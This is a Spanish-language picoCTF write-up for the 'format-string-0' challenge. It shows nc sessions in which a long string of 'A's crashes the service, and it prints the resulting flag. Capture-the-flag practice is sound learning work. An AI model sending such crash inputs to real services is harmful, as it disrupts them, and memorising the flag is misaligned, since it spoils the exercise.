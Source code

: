## Objetivo 
Can you use your knowledge of format strings to make the customers happy?Download the binary [here](https://artifacts.picoctf.net/c_mimas/69/format-string-0).Download the source [here](https://artifacts.picoctf.net/c_mimas/69/format-string-0.c).Connect with the challenge instance here:`nc mimas.picoctf.net 63903`
## Solución
```bash
luispuentes-picoctf@webshell:~$ ls
Parcial1  README.txt  a.out  format-string-0  format-string-0.c
luispuentes-picoctf@webshell:~$ ./a.out
Please create 'flag.txt' in this directory with your own debugging flag.
luispuentes-picoctf@webshell:~$ nc mimas.picoctf.net 56591
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 1
There is no such burger yet!

luispuentes-picoctf@webshell:~$ nc mimas.picoctf.net 56591
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 2
There is no such burger yet!


luispuentes-picoctf@webshell:~$ nc mimas.picoctf.net 56591 
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 3
There is no such burger yet!
        
luispuentes-picoctf@webshell:~$ nc mimas.picoctf.net 56591
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Notas
Al pasarle la entrada de AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
se desborda el buffer, dando la bandera.

## Referencias
https://www.cloudflare.com/es-es/learning/security/threats/buffer-overflow/